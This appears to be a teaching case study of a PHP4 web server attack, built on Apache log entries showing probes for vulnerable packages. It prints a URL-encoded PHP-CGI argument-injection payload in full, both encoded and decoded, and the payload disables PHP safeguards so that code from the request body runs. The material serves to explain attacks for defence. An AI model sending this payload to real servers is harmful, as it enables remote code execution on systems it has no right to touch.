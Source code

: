 # Case study: PHP4 web server attack

From log file,
```
[Sun Nov 20 23:17:18 2005] [error] [client www.xxx.yyy.zzz]
File does not exist: /usr/pkg/share/httpd/htdocs/xmlrpc
[Sun Nov 20 23:17:28 2005] [error] [client www.xxx.yyy.zzz]
File does not exist: /usr/pkg/share/httpd/htdocs/phpgroupwar
```

Is this an attempted intrusion? It turns out `phpgroupwar` is well-known
vulnerable PHP software packages..

> ### How do attackers compromise machines?
Hackers search across all IPs with same probing patterns to find out
vulnerable machines to compromise. Probes came from all over the world:
Germany, Indonesia, Japan, US...

Antoher variant of PHP attack, spotted in the log file:

```
/cgi-bin/php4?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69
%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F
%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69
%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D
%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F
%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65
%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70
%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F
%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63
%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67
%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73
%5F%65%6E%76%3D%30+%2D%6E
```
That decodes to:
```
/cgi-bin/php4?-d+allow_url_include=on+-d+safe_mode=off
+-d+suhosin.simulation=on+-d+disable_functions=""+
-d+open_basedir=none+-d+auto_prepend_file=php://input+
-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-n
```
Attackers try to run PHP scripts in non-safe mode..


